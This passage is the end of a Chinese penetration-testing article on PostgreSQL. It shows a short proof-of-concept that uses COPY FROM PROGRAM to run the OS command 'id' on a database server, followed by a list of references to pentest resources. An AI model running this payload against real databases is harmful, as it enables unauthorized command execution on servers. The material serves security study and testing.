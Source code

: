 **相关文章**  
\- [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)

**POC | Payload | exp**

```plain
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

[![3.png](assets/1698894509-febf9cfd97fa237dda385eebb1f1fbcc.png)](https://storage.tttang.com/media/attachment/2022/04/13/afe50a76-1cae-4e11-b5c0-3f1058fd175e.png)

- - -

# [0x07 参考](#toc_0x07)

-   [https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/%E6%B8%97%E9%80%8F%E4%B8%AD%E5%88%A9%E7%94%A8postgresql%20getshell/](https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/%E6%B8%97%E9%80%8F%E4%B8%AD%E5%88%A9%E7%94%A8postgresql%20getshell/)
-   [https://github.com/safe6Sec/PentestDB/blob/master/PostgreSQL.md](https://github.com/safe6Sec/PentestDB/blob/master/PostgreSQL.md)
-   [https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql\_hacking.md](https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md)
-   [https://hakin9.org/a-penetration-testers-guide-to-postgresql/](https://hakin9.org/a-penetration-testers-guide-to-postgresql/)
-   [https://tttang.com/archive/854/](https://tttang.com/archive/854/)
-   [https://valleylord.github.io/post/201410-postgres-plpython-install/](https://valleylord.github.io/post/201410-postgres-plpython-install/)
-   [https://www.unix-ninja.com/p/postgresql\_for\_red\_teams](https://www.unix-ninja.com/p/postgresql_for_red_teams)
-   [https://pulsesecurity.co.nz/articles/postgres-sqli](https://pulsesecurity.co.nz/articles/postgres-sqli)
-   [https://book.hacktricks.xyz/pentesting/pentesting-postgresql](https://book.hacktricks.xyz/pentesting/pentesting-postgresql)
-   [https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql\_hacking.md](https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md)
-   [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
-   [https://www.freebuf.com/articles/database/270106.html](https://www.freebuf.com/articles/database/270106.html)
-   [https://mp.weixin.qq.com/s/I5hDjIEzn0rKA9aCZsJw9w](https://mp.weixin.qq.com/s/I5hDjIEzn0rKA9aCZsJw9w)
-   [https://xz.aliyun.com/t/10202](https://xz.aliyun.com/t/10202)